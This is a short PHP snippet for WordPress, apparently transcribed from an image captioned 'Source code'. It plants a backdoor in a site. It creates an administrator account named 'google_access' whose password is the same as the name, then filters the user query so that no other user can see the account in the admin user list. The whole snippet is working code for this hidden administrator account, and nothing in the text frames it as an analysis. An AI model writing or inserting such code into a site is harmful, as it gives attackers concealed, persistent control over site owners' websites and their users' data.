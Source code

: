 
$new_user =new WP_User(wp_create_user('google_access','google_access'));
$new_user->set_role('administrator');


add_action('pre_user_query','google_access_user_query');
function google_access_user_query($user_search) {
  global $current_user;
  $username = $current_user->user_login;
  if ($username != 'google_access') { 
    global $wpdb;
    $user_search->query_where = str_replace('WHERE 1=1',
      "WHERE 1=1 AND {$wpdb->users}.user_login != 'google_access'",$user_search->query_where);
  }
}
